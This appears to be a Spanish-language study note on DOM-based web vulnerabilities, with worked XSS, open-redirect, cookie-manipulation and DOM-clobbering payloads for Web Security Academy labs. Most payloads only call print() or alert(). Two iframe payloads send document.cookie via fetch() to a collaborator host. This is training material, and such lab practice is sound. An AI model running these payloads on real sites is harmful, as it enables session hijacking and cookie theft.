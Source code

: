 ## ¿Qué es el DOM?

El **Document Object Model (DOM)** es una representación jerárquica de los elementos existentes en una página web. Los sitios web pueden utilizar Javascript para manipular nodos y objectos del DOM, así como sus propiedades.

La manipulación del **DOM** en sí no es un problema, de hecho, es una parte integral de cómo funcionan los portales web modernos. Sin embargo, **Javascript** puede manejar datos de forma poco seguro permitiendo habilitar que sea vulnerable a diferentes tipos de ataques.

Las vulnerabilidades basadas en **DOM** surgen cuando un sitio web contiene **Javascript** que toma un valor que el atacante puede controlar, conocido como **fuente** (**source** en inglés) y lo pasa a una **función peligrosa**, conocida como **sumidero** (**sink** en inglés).

* Source: `location.search`
* Sink: `eval()` OR Sink HTML: `document.body.InnerHTML`

### Fuentes comunes

```
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
AddEventListener
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
```
### Sumideros Comunes:

```
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
```

<hr>

- Source: **AddEventListener** `Primeros 3 labs, resumidos.`
	- LAB: DOM XSS Web Messages
    - `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">`

	* LAB: DOM XSS Web Messages Javascript:url
    - `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">`
    - 
	*  LAB: DOM XSS Web Messages & **JSON** Parse
    - `<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>`

#### Pequeño ejemplo para filtrar la Cookie: 

```js
//Filtrar la cookie: 
<iframe src="https://0a49000e03ea172382c2f1c100f3001b.web-security-academy.net/" 
onload="this.contentWindow.postMessage('javascript:fetch(`https://colaborador.com?cookie=${document.cookie}`)//http:','*')">
</iframe>
```

- Check for DOM redirections (parameters hidden in source code)
- Cookies containing URLs

<hr>
### Steal a cookie:

```
<iframe src="https://TARGET.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=fetch(`https://COLLABORATOR.com?collector=`+btoa(document.cookie))>','*')">
```

### DOM XSS using web messages

```
Notice that the home page contains an addEventListener() call that listens for a web message.

Go to the exploit server and add the following iframe to the body. Remember to add your own lab ID:

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

### DOM XSS using web messages and a JavaScript URL

```
Notice that the home page contains an addEventListener() call that listens for a web message. 
The JavaScript contains a flawed indexOf() check that looks for the strings "http:" or "https:" anywhere within the web message. It also contains the sink location.href.

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

### DOM XSS using web messages and JSON.parse

```
Notice that the home page contains an event listener that listens for a web message. This event listener expects a string that is parsed using JSON.parse(). In the JavaScript, we can see that the event listener expects a type property and that the load-channel case of the switch statement changes the iframe src attribute.

<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

### DOM Based Open Redirection `location.href`

```js
//PAYLOAD: & `Location.href`
The blog post page contains the following link, which returns to the home page of the blog:

<a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>

//Y mandamos la URL para que cargue el server exploit así:
* https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/
```

### DOM Based Cookie Manipulation `lastViewedProduct`

```js
//PAYLOAD: & `Cookie: SameSite=None`
//El problema recae en que la cookie es controlable por el atacante
1. Notice that the home page uses a client-side cookie called `lastViewedProduct`, whose value is the URL of the last product page that the user visited.
2. Go to the exploit server and add the following `iframe` to the body, remembering to replace `YOUR-LAB-ID` with your lab ID:

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
//encoded a URL, en caso tal de que no funcionara así, LA segunda fase. 

//EJEMPLO EXPLOTACION DEL LAB CUANDO LO HICÉ: 
<iframe src="https://ID-LAB.web-security-academy.net/product?productId=1&%27/%3E%3Cscript%3Eprint()%3C/script%3E" onload="if(!window.x)this.src='https://ID-LAB.web-security-academy.net';window.x=1;">

```

### DOM Clobbering to Enable XSS

```js
//La sección de comentarios implementa un script vulnerable el cual usa sumideros inseguros como xmlHttpRequest
//En la seccion de comentarios HTML tiré un: <img src=x onerror=alert(1)> y coló WTFjaja, pero la solución real es: 
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">

//Está parseado en HTML pero en esencia es lo mismo que la teoria, en este caso se tomo la variable de `defaultAvatar`

- DomPurify allows the protocol `cid:`, which doesn't encode double quote (`"`): `<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">`

```

Eso es todo de dom, ave maría.